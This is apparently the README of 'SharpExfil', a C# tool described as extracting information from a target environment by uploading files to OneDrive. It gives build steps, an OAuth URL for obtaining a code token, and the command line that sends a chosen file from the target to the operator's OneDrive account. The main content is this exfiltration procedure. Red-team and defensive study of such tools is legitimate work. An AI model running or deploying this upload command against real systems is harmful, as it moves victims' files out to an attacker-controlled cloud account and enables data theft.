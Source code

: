 # SharpExfil
C# executables to extract information from target environment using OneDrive API.

## OneDrive API instructions
you can find the steps to create OneDrive keys [here](./OneDrive_API_Key.md)

## Build Instructions

Add your OneDrive API keys to the 'API_Keys.cs' file in project.

Then build project from visual studio

## Running binary

1. Goto the url -  
	`https://login.microsoftonline.com/common/oauth2/v2.0/authorize?client_id=<Client_ID>&scope=<Scopes>&response_type=code&redirect_uri=<Redirect_URI>`  
	Replace Client_id with Application ID of the registered application.  
	Make sure redirect_uri string has the same value from registration.  

2. The new URL should contain the access_token  
	<img src="./img/token.png"/>

3. Run executable with generated code token
	`Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>
	Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>`
	<img src="./img/command.png"/>
	Pass all arguments in the same order